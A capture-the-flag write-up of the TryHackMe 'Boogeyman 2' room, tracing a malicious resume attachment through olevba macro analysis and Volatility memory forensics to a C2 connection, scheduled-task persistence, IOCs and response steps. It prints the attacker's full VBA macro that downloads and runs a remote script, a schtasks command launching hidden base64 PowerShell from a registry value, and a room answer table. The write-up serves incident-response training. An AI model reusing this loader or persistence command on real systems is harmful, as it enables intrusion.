










# Boogeyman 2 — TryHackMe Write-up

Phishing analysis and memory forensics. A malicious resume lands in an HR inbox, a Word macro pulls down a JScript stage 2, and a memory dump of the victim workstation gives up the full chain — process tree, C2 connection, and the scheduled task the attacker left behind.

> Round 2 with the Boogeyman. After the first attack, Quick Logistics LLC hardened its defences — so the group came back with new TTPs.

---

## The scenario

Maxine Beck, an HR Specialist at Quick Logistics LLC, received an application for one of the company's open positions. The attached resume was malicious and compromised her workstation. The security team flagged suspicious commands on the host, which kicked off the investigation.

Two artefacts in `/home/ubuntu/Desktop/Artefacts`:

- `Resume - Application for Junior IT Analyst Role.eml` — the phishing email
- `WKSTN-2961.raw` — memory dump of Maxine's workstation

Tools: **olevba** for the macro, **Volatility 3** for the memory image.

---

## 1. The phishing email

Opened the `.eml` in Thunderbird.



| | |
|---|---|
| From | `westaylor23@outlook.com` |
| To | `maxine.beck@quicklogisticsorg.onmicrosoft.com` |
| Subject | Resume - Application for Junior IT Analyst Role |
| Date | Sun, 20 Aug 2023 18:19:20 +0000 |
| Attachment | `Resume_WesleyTaylor.doc` (64.0 KB) |

The pretext is well chosen. "Wesley Taylor" is applying for a Junior IT Analyst role and has attached a resume — which is exactly what an HR specialist is paid to open. No urgency, no bad grammar, no suspicious link in the body. Nothing to react to. The entire attack is in the attachment, and the job posting is the reason it gets opened.

The sender is a free Outlook address rather than a corporate domain — normal for a job applicant, which is the point.

### Hash

```bash
md5sum Resume_WesleyTaylor.doc
```



**MD5**

```
52c4384a0b9e248b95804352ebec6c5b
```

First IOC to submit and to push to the team.

---

## 2. The macro

The `.doc` extension is the old OLE format, so olevba reads it directly.

```bash
olevba Resume_WesleyTaylor.doc
```

### What the macro does



```vb
Sub AutoOpen()

spath = "C:\ProgramData\"
Dim xHttp: Set xHttp = CreateObject("Microsoft.XMLHTTP")
Dim bStrm: Set bStrm = CreateObject("Adodb.Stream")
xHttp.Open "GET", "https://files.boogeymanisback.lol/aa2a9c53cbb80416d3b47d85538d9971/update.png", False
xHttp.Send
With bStrm
    .Type = 1
    .Open
    .write xHttp.responseBody
    .savetofile spath & "\update.js", 2
End With

Set shell_object = CreateObject("WScript.Shell")
shell_object.Exec ("wscript.exe C:\ProgramData\update.js")

End Sub
```

The whole first stage in one sub. `AutoOpen()` means it fires the moment the document is opened with macros enabled — no button to click, no second prompt.

Download → save to disk → execute. `Microsoft.XMLHTTP` pulls a remote file over HTTPS, `Adodb.Stream` writes it to `C:\ProgramData\update.js`, and `WScript.Shell` hands it to `wscript.exe`. That is the stage 1 → stage 2 handoff in three objects.

`C:\ProgramData` is a deliberate choice: world-writable, not a user folder anyone browses, and files there do not look out of place.

### IOCs from the macro



olevba's own triage flags the whole toolkit: `Microsoft.XMLHTTP` (download), `Adodb.Stream` + `savetofile` (write to disk), `WScript.Shell` + `Exec` (execute), plus hex strings for obfuscation.

It also lifts the stage 2 URL out for you:

```
https://files.boogeymanisback.lol/aa2a9c53cbb80416d3b47d85538d9971/update.png
```

The `.png` extension is a lie — the file is JScript. Naming a payload after an image type is meant to slip past extension-based filtering and look harmless in a proxy log. The domain isn't hiding at all: `files.boogeymanisback.lol`.

---

## 3. Memory forensics

Volatility 3 against `WKSTN-2961.raw`.

### The stage 2 process

```bash
vol -f WKSTN-2961.raw windows.pslist
```



```
4260   1124   wscript.exe   2023-08-21 14:12:47
```

`wscript.exe` running with **PID 4260**, parent **PID 1124**. PID 1124 is `WINWORD.EXE` — which confirms the macro theory from memory alone: Word spawned a script host. That parent/child pair is the detection. Word has no legitimate reason to launch `wscript.exe`, ever.

### The full chain

```bash
vol -f WKSTN-2961.raw windows.pstree
```



```
explorer.exe (596)
└── OUTLOOK.EXE (1440)              14:09:04
    └── WINWORD.EXE (1124)          14:12:31
        ├── WINWORD.EXE (4336)      14:12:34  (exited 14:12:45)
        ├── wscript.exe (4260)      14:12:47
        │   └── updater.exe (6216)  14:12:48
        │       └── conhost.exe (4464)
```

The whole intrusion in one view, and the timestamps tell the story: the email is opened at 14:09, the document at 14:12:31, and sixteen seconds later there is a third-stage binary running. Click to compromise took under a minute.

### Command lines

```bash
vol -f WKSTN-2961.raw windows.cmdline
```



```
4260  wscript.exe   wscript.exe C:\ProgramData\update.js
6216  updater.exe   "C:\Windows\Tasks\updater.exe"
```

Stage 2 is confirmed at **`C:\ProgramData\update.js`** — matching the macro exactly. Stage 3 is **`C:\Windows\Tasks\updater.exe`**, **PID 6216**.

`C:\Windows\Tasks` is a smart pick. It is a legitimate system directory, it is writable by standard users on many builds, and an executable sitting there next to scheduled-task files reads as system noise rather than malware.

### Where stage 3 came from

`update.js` isn't in the artefacts folder, but its download URL survives in memory:

```bash
strings WKSTN-2961.raw | grep -i "boogeymanisback"
```

```
https://files.boogeymanisback.lol/aa2a9c53cbb80416d3b47d85538d9971/update.exe
```

Same host, same path, same random-looking directory as the stage 2 payload — only the filename changes, `update.png` → `update.exe`. One piece of infrastructure serving both stages, which means blocking the domain kills the whole delivery chain rather than one link of it.

### The attachment on disk



```
"C:\Program Files\Microsoft Office\Root\Office16\WINWORD.EXE" /n
"C:\Users\maxine.beck\AppData\Local\Microsoft\Windows\INetCache\Content.Outlook\WQHGZCFI\Resume_WesleyTaylor (002).doc"
```

The `INetCache\Content.Outlook` path is the giveaway that the file was opened straight out of Outlook rather than saved first. The `(002)` suffix means Outlook had already cached a copy — the document was opened more than once.

### The C2 connection

```bash
vol -f WKSTN-2961.raw windows.netscan
```



```
0xe58f87e81bf0  TCPv4  10.10.49.181:63339  →  128.199.95.189:8080  CLOSED
6216  updater.exe  2023-08-21 14:15:40
```

**`128.199.95.189:8080`**, owned by `updater.exe` (PID 6216). Port 8080 is HTTP-alt — chosen to blend into ordinary outbound web traffic rather than stand out as a strange port.

---

## 4. Persistence

The C2 callback lands at 14:15:40. The scheduled task goes in right after — and this was the hardest artefact to find. `windows.cmdline` shows nothing, because `schtasks` had already exited by the time the dump was taken.

I burned a lot of time on this one: dumping every file out of the image and grepping the results, which was slow and gave nothing useful. What actually worked was carving strings straight out of the raw image:

```bash
strings WKSTN-2961.raw | grep -i "schtasks"
```



```
schtasks /Create /F /SC DAILY /ST 09:00 /TN Updater /TR "C:\Windows\System32\WindowsPowerShell\v1.0\powershell.exe -NonI -W hidden -c \"IEX ([Text.Encoding]::UNICODE.GetString([Convert]::FromBase64String((gp HKCU:\Software\Microsoft\Windows\CurrentVersion debug).debug)))\""
```

Broken down:

| Flag | Meaning |
|---|---|
| `/Create /F` | Create, force-overwrite if it already exists |
| `/SC DAILY /ST 09:00` | Every day at 09:00 — start of the working day, when the noise is highest |
| `/TN Updater` | Named "Updater" to look like a maintenance task |
| `-NonI -W hidden` | Non-interactive, hidden window — no visible prompt |
| `gp HKCU:\...\CurrentVersion debug` | Reads the payload from a registry value called `debug` |
| `FromBase64String` → `IEX` | Decodes it and executes it in memory |

This is the part worth studying. **The payload is not a file — it is a registry value.** The scheduled task carries no malicious code of its own; it reads `HKCU:\Software\Microsoft\Windows\CurrentVersion\debug`, base64-decodes it and runs it in memory. Delete `updater.exe` and the box is still compromised. File-based AV finds nothing to quarantine, because nothing malicious is sitting on disk.

---

## IOCs

| Type | Value |
|---|---|
| Sender | `westaylor23@outlook.com` |
| Victim | `maxine.beck@quicklogisticsorg.onmicrosoft.com` |
| Attachment | `Resume_WesleyTaylor.doc` |
| MD5 | `52c4384a0b9e248b95804352ebec6c5b` |
| URL (stage 2) | `https://files.boogeymanisback.lol/aa2a9c53cbb80416d3b47d85538d9971/update.png` |
| URL (stage 3) | `https://files.boogeymanisback.lol/aa2a9c53cbb80416d3b47d85538d9971/update.exe` |
| Domain | `files.boogeymanisback.lol` |
| Stage 2 | `C:\ProgramData\update.js` |
| Stage 3 | `C:\Windows\Tasks\updater.exe` |
| C2 | `128.199.95.189:8080` |
| Persistence | Scheduled task `Updater`, daily 09:00 |
| Registry payload | `HKCU:\Software\Microsoft\Windows\CurrentVersion\debug` |
| Host | `WKSTN-2961` (`10.10.49.181`) |

---

## Answers

| Question | Answer |
|---|---|
| Email used to send the phishing email | `westaylor23@outlook.com` |
| Victim employee's email | `maxine.beck@quicklogisticsorg.onmicrosoft.com` |
| Name of the malicious attachment | `Resume_WesleyTaylor.doc` |
| MD5 of the attachment | `52c4384a0b9e248b95804352ebec6c5b` |
| URL used to download the stage 2 payload | `https://files.boogeymanisback.lol/aa2a9c53cbb80416d3b47d85538d9971/update.png` |
| Process that executed stage 2 | `wscript.exe` |
| Full path of the stage 2 payload | `C:\ProgramData\update.js` |
| PID of the stage 2 process | `4260` |
| Parent PID | `1124` |
| URL used to download the malicious binary | `https://files.boogeymanisback.lol/aa2a9c53cbb80416d3b47d85538d9971/update.exe` |
| PID of the C2 process | `6216` |
| Full path of the C2 process | `C:\Windows\Tasks\updater.exe` |
| C2 IP and port | `128.199.95.189:8080` |
| Full path of the attachment in memory | `C:\Users\maxine.beck\AppData\Local\Microsoft\Windows\INetCache\Content.Outlook\WQHGZCFI\Resume_WesleyTaylor (002).doc` |
| Persistence command | `schtasks /Create /F /SC DAILY /ST 09:00 /TN Updater /TR "..."` (full command above) |

---

## Response actions

1. **Isolate `WKSTN-2961`.** Live C2 on 8080 with persistence already implanted.
2. **Delete the scheduled task *and* the registry value.** Removing `Updater` alone leaves the payload sitting in `HKCU\...\CurrentVersion\debug`. Both, or neither.
3. **Block `files.boogeymanisback.lol` and `128.199.95.189`** at DNS, proxy and firewall, and hunt both across outbound logs — other recipients may have received the same resume.
4. **Reset Maxine's credentials** and review her mailbox for other applications from the same or similar senders.
5. **Hunt the estate** for `C:\ProgramData\update.js`, `C:\Windows\Tasks\updater.exe`, and any `CurrentVersion\debug` registry value.
6. **Deploy the detection that would have caught this on day one:** Office applications spawning `wscript.exe`, `cscript.exe`, `powershell.exe` or `cmd.exe`. That parent/child relationship is never legitimate.
7. **Disable macros from the internet by GPO.** The attack has no first stage without it.

---

## Takeaways

**The pretext beats the payload.** No urgency, no typos, no link to click. A resume sent to HR for an advertised role — the one attachment that department is required to open. Awareness training doesn't help when opening the file *is* the job. The control that stops this is technical, not human.

**Process lineage was the whole investigation.** `OUTLOOK → WINWORD → wscript → updater` told me more in one `pstree` than anything else did. Every question about paths, PIDs and network connections hung off that chain once I had it.

**Persistence hid in the registry, not on disk.** The scheduled task is a loader with no payload — the code lives in a registry value and only ever exists in memory. If the response is "delete the exe, close the ticket", the attacker still owns the box tomorrow at 09:00.

**One domain served the whole campaign.** Stage 2 and stage 3 came off the same host and the same directory, differing only by file extension. That is a single point of failure for the attacker and the highest-value block in the response.

**Exited processes still leave their commands in RAM.** `schtasks` was long gone, so `cmdline` and `pslist` had nothing to show. `strings` on the raw image did. When a plugin comes back empty, the data may still be there — just not where that plugin looks.
